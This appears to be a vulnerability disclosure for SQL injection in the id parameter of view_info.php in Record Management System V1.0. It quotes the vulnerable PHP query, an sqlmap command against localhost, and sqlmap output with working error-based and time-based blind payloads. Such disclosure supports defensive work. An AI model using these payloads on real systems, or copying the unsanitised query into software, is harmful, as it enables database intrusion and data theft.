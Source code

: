### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (view_info.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
view_info.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/view_info.php):
```
$get_id=$_GET['id'];
$get_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$row=mysqli_fetch_array($get_query);$id=$row['employeeID'];
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/view_info.php?id=166 --batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=166'||(SELECT 0x6e514463 WHERE 3381=3381 AND (SELECT 9571 FROM(SELECT COUNT(*),CONCAT(0x717a627171,(SELECT (ELT(9571=9571,1))),0x7162717171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=166'||(SELECT 0x656d4452 WHERE 1219=1219 AND (SELECT 1751 FROM (SELECT(SLEEP(5)))DSrn))||'
---
```
